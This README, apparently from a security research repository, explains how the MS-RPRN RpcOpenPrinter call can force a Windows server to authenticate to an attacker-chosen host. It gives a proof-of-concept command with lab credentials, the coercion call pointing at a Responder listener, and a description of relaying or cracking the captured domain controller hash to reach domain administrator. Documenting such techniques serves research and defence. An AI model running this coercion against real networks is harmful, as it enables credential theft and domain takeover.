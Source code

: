# MS-RPRN - Remote call to RpcOpenPrinter (opnum 1)

## Summary

 - **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

 - **Protocol version**: 1.0

 - **Function name**: [`RpcOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/989357e2-446e-4872-bb38-1dce21e1313f)

 - **Function operation number**: `1`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `12345678-1234-abcd-ef00-0123456789ab`, version `1.0`) in order to perform calls to RPC functions of the `MS-RPRN` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. It will then call the remote [`RpcOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/989357e2-446e-4872-bb38-1dce21e1313f) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcOpenPrinter('192.168.2.51\x00', 'test\x00', 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcOpenPrinter(
    [in, string, unique] STRING_HANDLE pPrinterName,
    [out] PRINTER_HANDLE* pHandle,
    [in, string, unique] wchar_t* pDatatype,
    [in] DEVMODE_CONTAINER* pDevModeContainer,
    [in] DWORD AccessRequired
);
```

 - **pPrinterName**: A `STRING_HANDLE` (section 2.2.1.1.7) for a printer connection, printer object, server object, job object, port object, or port monitor object. For opening a server object, this parameter MUST adhere to the specification in Print Server Name Parameters (section 3.1.4.1.4); for opening all other objects, it MUST adhere to the specification in Printer Name Parameters (section 3.1.4.1.5).


 - **pHandle**: A pointer to a `PRINTER_HANDLE` (section 2.2.1.1.4) that MUST receive the RPC context handle [C706] to the object identified by the `pPrinterName` parameter.


 - **pDatatype**: A pointer to a string that specifies the data type to be associated with the printer handle. This parameter MUST adhere to the specification in Datatype Name Parameters (section 3.1.4.1.1).


 - **pDevModeContainer**: A pointer to a `DEVMODE_CONTAINER` structure. This parameter MUST adhere to the specification in `DEVMODE_CONTAINER` Parameters (section 3.1.4.1.8.1).


 - **AccessRequired**: The access level that the client requires for interacting with the object to which a handle is being opened. The value of this parameter is one of those specified in Access Values (section 2.2.3.1) or 0. For rules governing access values, see section 2.2.4.1. If `AccessRequired` is set to 0 (if no specific access level is requested), the server MUST assume a `GENERIC_READ` (section 2.2.3.1) access level.

## References

 - Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1

 - Documentation of function `RpcOpenPrinter`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/989357e2-446e-4872-bb38-1dce21e1313f